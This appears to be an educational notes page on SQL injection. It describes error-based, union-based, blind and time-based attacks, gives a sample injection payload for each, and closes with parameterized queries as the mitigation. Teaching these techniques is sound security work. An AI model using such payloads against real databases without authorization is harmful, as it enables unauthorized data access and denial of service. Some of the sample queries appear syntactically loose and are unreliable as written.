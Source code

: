```yaml
---
description: All kinds and forms of SQLi for discussion and questioning
---
```


# SQL Injection (SQLi)

SQL Injection is a form of database attack to query/modify data from the database. Attackers can obtain results that may belong to other users. SQLi can be extended to compromise backend server or cause denial of service.



{% embed url="https://portswigger.net/web-security/sql-injection" %}
Fantastic Explanation By PortSwigger
{% endembed %}



### Attack Types

* Error Based

Cannot see query output but can see errors, make use of errors to formulate exploit

```bash
(select 1 and row(1,1)>(select count(*),concat(CONCAT(@@VERSION),0x3a,floor(rand()*2))x from (select 1 union select 2)a group by x limit 1))
```

* Union Based

Commonly using Order By / Group By with Union

```bash
1' ORDER BY 1--+    #True
1' ORDER BY 2--+    #True
1' ORDER BY 3--+    #True
1' ORDER BY 4--+    #False - Query is only using 3 columns
                        #-1' UNION SELECT 1,2,3--+    True
1' GROUP BY 1--+    #True
1' GROUP BY 2--+    #True
1' GROUP BY 3--+    #True
1' GROUP BY 4--+    #False - Query is only using 3 columns
                        #-1' UNION SELECT 1,2,3--+    True
1' UNION SELECT null-- - Not working
1' UNION SELECT null,null-- - Not working
1' UNION SELECT null,null,null-- - Worked
```

* Blind Based

No output or errors but contents on webpage may differ depending if query is **true or false**

```basic
?id=1 AND SELECT SUBSTR(table_name,1,1) FROM information_schema.tables = 'A'
```

* Timed Based

Test if query response takes longer than normal to load the content

```bash
1 and (select sleep(10) from users where SUBSTR(table_name,1,1) = 'A')#
```



### Mitigation

#### Parameterized Query

By using a prepared statement rather than concatenation of strings, SQLi will be greatly reduced to prevent possible attacks from untrusted user input

```basic
PreparedStatement statement = connection.prepareStatement("SELECT * FROM products WHERE category = ?");
statement.setString(1, input);
ResultSet resultSet = statement.executeQuery();
```

A step further in using prepared statement would be to use stored procedures that hold fully prepared statements within the database to query itself without the need of user input

## Author

- [Zheng Jie](https://github.com/Bread7) 🍞
